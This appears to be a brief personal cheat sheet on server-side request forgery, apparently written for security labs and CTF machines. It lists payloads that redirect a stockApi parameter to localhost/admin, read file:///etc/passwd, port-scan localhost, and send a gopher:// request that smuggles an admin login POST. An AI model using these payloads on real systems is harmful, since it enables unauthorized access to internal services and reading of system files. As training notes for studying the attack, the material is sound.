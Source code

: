 # Make Your Own Requests to Server
When finding something in a web request that fetches information from a link, you can change this to the admin page to get access to the admin page:
```
stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```
Turn this to:
```
stockApi=http%3a//localhost/admin
```
If you cant do actions because it requires admin access, click the action you are trying to do, capture the URL it is requesting, then submit the same HTTP request again, but change the URL variable to the same URL that is shown when clicking the action

# Exploitation
- internal portscan by accessing ports on localhost
- accessing restricted endpoints

# Protocols
- `http://127.0.0.1/`
- `file:///etc/passwd`
- `gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin`